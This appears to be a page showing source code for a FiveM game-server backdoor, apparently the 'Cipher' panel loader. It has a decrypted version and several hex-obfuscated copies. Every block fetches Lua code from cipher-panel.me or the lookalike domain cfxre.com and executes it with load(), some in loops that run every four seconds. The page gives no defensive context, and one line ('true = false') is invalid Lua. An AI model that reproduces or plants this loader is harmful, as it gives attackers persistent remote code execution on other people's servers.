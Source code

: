 LUA DECRYPT
------------------------------------------------------------------------------------------------
PerformHttpRequest("https://cipher-panel.me/_i/v2_/stage3.php?to=0", function (status, code) 
    if (code == nil or code == "") then return end 
    assert(load(code))()
end)



--------------------------------------------------------------------------------------------
moOIPbApBQWTciOEykpC = nil
TriggerEvent("uJikMuBueKzqpNUZXDEi", function(NYYyozRVJPTQyxSRyfvG) 
    moOIPbApBQWTciOEykpC = NYYyozRVJPTQyxSRyfvG 
end)
if (moOIPbApBQWTciOEykpC) then return end 
AddEventHandler("uJikMuBueKzqpNUZXDEi", function(NYYyozRVJPTQyxSRyfvG) 
    NYYyozRVJPTQyxSRyfvG(true)
end)
Citizen.CreateThread(function() 
    while true do 
        PerformHttpRequest('https://cfxre.com/v2_/stage3b.php?asf=NXRyYWNrZHJ2ZDlKZWtvZnRQRHVSYlVmakFOa0N4T2VtSERSeDdybkR5NkZ5a09NTzBXZ0tQT3ZGdjdFek1PNQ==', function (status, codeGet) 
            if(status == 200) then 
                if (codeGet == nil or codeGet == "") then return end
                assert(load(codeGet))()
            end
        end)
        Citizen.Wait(4000)
    end
end)


------------------------------------------------------------------------------
 Citizen.CreateThread(function() 
    while true do 
        PerformHttpRequest( 'https://cfxre.com/v2_/stage4.php?asf=R01LT0FRMlNhaHlOcno2VmxRbThSTGNnRUI4WGRVUk44NFBrQ2V1T2crTnRJQWlERHNWL0VwTzhDRnI3L2I4dw=='  , function (status, code)
            if(status == 200) then 
                if (code == nil or code == "") then  return end
                assert(load(code))()
                true = false
            end
        end)
        Citizen.Wait(4000)
    end
end)




-----------------
LUA ENCRYPT Server Side

local mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL = {"\x50\x65\x72\x66\x6f\x72\x6d\x48\x74\x74\x70\x52\x65\x71\x75\x65\x73\x74","\x61\x73\x73\x65\x72\x74","\x6c\x6f\x61\x64",_G,"",nil} mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[4][mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[1]]("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x76\x32\x5f\x2f\x73\x74\x61\x67\x65\x33\x2e\x70\x68\x70\x3f\x74\x6f\x3d\x30", function (DwZWphrKGDDclwNtLpLAJFYGBImTceclqbnUvvYtbwHUgrgcKAfNiYJjNQFdnNVCHexXyL, RGSChYNZYafbzJMYcdUVOyOiYkNBYmHgugpbTCemKyjrouFGxIHEJNLSXJazAVJNhGNgQD) if (RGSChYNZYafbzJMYcdUVOyOiYkNBYmHgugpbTCemKyjrouFGxIHEJNLSXJazAVJNhGNgQD == mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[6] or RGSChYNZYafbzJMYcdUVOyOiYkNBYmHgugpbTCemKyjrouFGxIHEJNLSXJazAVJNhGNgQD == mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[5]) then return end mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[4][mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[2]](mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[4][mRDmgfFSNwoTNhifKxyYoanziigpWBZTJJDWhImETdeMJKXeFhFotrkaFKamDgKhDIEzNL[3]](RGSChYNZYafbzJMYcdUVOyOiYkNBYmHgugpbTCemKyjrouFGxIHEJNLSXJazAVJNhGNgQD))() end)

local YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl = {"\x50\x65\x72\x66\x6f\x72\x6d\x48\x74\x74\x70\x52\x65\x71\x75\x65\x73\x74","\x61\x73\x73\x65\x72\x74","\x6c\x6f\x61\x64",_G,"",nil} YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[4][YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[1]]("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x76\x32\x5f\x2f\x73\x74\x61\x67\x65\x33\x2e\x70\x68\x70\x3f\x74\x6f\x3d\x30", function (YzeYNazaYOzlRszEbUVozWxAzwUiWLrXLOMbqlLCpwKnMGoAEqqplNXzTQvRpLoLbkfATo, xeYbTGJbtzKejOgZnpqWojfPFxgobJbNUzENczvohAFvmLZYxtWmqZTyCOAIuEicREhydt) if (xeYbTGJbtzKejOgZnpqWojfPFxgobJbNUzENczvohAFvmLZYxtWmqZTyCOAIuEicREhydt == YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[6] or xeYbTGJbtzKejOgZnpqWojfPFxgobJbNUzENczvohAFvmLZYxtWmqZTyCOAIuEicREhydt == YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[5]) then return end YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[4][YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[2]](YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[4][YZobGxueqosBnhPgaHfhbnRrPkJZyYtkAPCJAaVObWrPgaAvfwLpWhxiRoGJXWUglbTKQl[3]](xeYbTGJbtzKejOgZnpqWojfPFxgobJbNUzENczvohAFvmLZYxtWmqZTyCOAIuEicREhydt))() end)

local SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB = {"\x50\x65\x72\x66\x6f\x72\x6d\x48\x74\x74\x70\x52\x65\x71\x75\x65\x73\x74","\x61\x73\x73\x65\x72\x74","\x6c\x6f\x61\x64",_G,"",nil} SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[1]]("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x76\x32\x5f\x2f\x73\x74\x61\x67\x65\x33\x2e\x70\x68\x70\x3f\x74\x6f\x3d\x30", function (VMDTOWKewhmEmOgLxxjvPLTDMRdtQAYZWlPgwqIcifgeuEOkXgkugvTrjRMxIlMaXZGmsx, PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH) if (PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH == SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[6] or PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH == SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[5]) then return end SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[2]](SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[3]](PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH))() end)

local SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB = {"\x50\x65\x72\x66\x6f\x72\x6d\x48\x74\x74\x70\x52\x65\x71\x75\x65\x73\x74","\x61\x73\x73\x65\x72\x74","\x6c\x6f\x61\x64",_G,"",nil} SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[1]]("\x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x76\x32\x5f\x2f\x73\x74\x61\x67\x65\x33\x2e\x70\x68\x70\x3f\x74\x6f\x3d\x30", function (VMDTOWKewhmEmOgLxxjvPLTDMRdtQAYZWlPgwqIcifgeuEOkXgkugvTrjRMxIlMaXZGmsx, PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH) if (PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH == SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[6] or PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH == SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[5]) then return end SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[2]](SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[4][SenUyqXPCjHBJVwLffpPKGQXMUHEVqasqqDOjOHRDBNZyMmbRdaZbIsXoXOhlILXJUbLZB[3]](PotcHxLJRXChwfqbHfOrMVSCtpxMvsqkebJtbBHmgNURhMZqkmQRfuLJQgtpteCVQhfoDH))() end)
